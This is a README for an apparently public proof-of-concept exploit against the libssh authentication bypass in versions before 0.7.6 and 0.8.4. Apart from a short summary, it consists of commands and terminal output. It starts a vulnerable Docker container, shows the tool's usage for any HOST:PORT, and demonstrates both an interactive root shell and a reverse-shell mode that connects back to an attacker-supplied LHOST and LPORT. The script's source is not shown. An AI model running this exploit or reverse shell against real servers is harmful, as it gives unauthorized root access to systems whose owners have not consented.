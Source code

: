 # libssh_rce.py

## Summary

A vulnerability was found in libssh's server-side state machine before versions 0.7.6 and 0.8.4. A malicious client could create channels without first performing authentication, resulting in unauthorized access.  This PoC gives you a tty shell by abuse this vulnerability. 

## Usage

Start docker container with libssh if you want to test this locally

```sh
⬢  libssh_rce  master ⦿ docker-compose up -d
Starting libssh_rce_sshd_1 ... done
```

Verify that container is running.

```sh
⬢  libssh_rce  master ⦿ docker ps
CONTAINER ID        IMAGE                 COMMAND                  CREATED             STATUS              PORTS                  NAMES
350f067636e8        vulhub/libssh:0.8.1   "/bin/sh -c '/usr/sr…"   42 minutes ago      Up 14 seconds       0.0.0.0:2222->22/tcp   libssh_rce_sshd_1
```

Run ./libssh_rce.py to get the usage menu. 

```sh
⬢  libssh_rce  master ⦿ ./libssh_rce.py 

▄▄▌  ▪  ▄▄▄▄· .▄▄ · .▄▄ ·  ▄ .▄▄▄▄   ▄▄· ▄▄▄ .
██•  ██ ▐█ ▀█▪▐█ ▀. ▐█ ▀. ██▪▐█▀▄ █·▐█ ▌▪▀▄.▀·
██▪  ▐█·▐█▀▀█▄▄▀▀▀█▄▄▀▀▀█▄██▀▐█▐▀▀▄ ██ ▄▄▐▀▀▪▄
▐█▌▐▌▐█▌██▄▪▐█▐█▄▪▐█▐█▄▪▐███▌▐▀▐█•█▌▐███▌▐█▄▄▌
.▀▀▀ ▀▀▀·▀▀▀▀  ▀▀▀▀  ▀▀▀▀ ▀▀▀ ·.▀  ▀·▀▀▀  ▀▀▀ 
[nighter@nighter.se]
    
Usage: ./libssh_rce.py <HOST:PORT> <LHOST> <LPORT>

EXAMPLE: ./libssh_rce.py '127.0.0.1' 10.30.6.147 1337
EXAMPLE: ./libssh_rce.py '127.0.0.1' interactive
```

Run the exploit in interactive mode.

```sh
⬢  libssh_rce  master ⦿ ./libssh_rce.py 127.0.0.1:2222 interactive
# id  
uid=0(root) gid=0(root) groups=0(root)
```

Run exploit in reverse_tcp mode.

```sh
⬢  libssh_rce  master ⦿ ./libssh_rce.py '127.0.0.1:2222' 192.168.1.81 1337
[+] LHOST = 192.168.1.81
[+] LPORT = 1337
[+] Shell listen
root@350f067636e8:/# id
uid=0(root) gid=0(root) groups=0(root)
```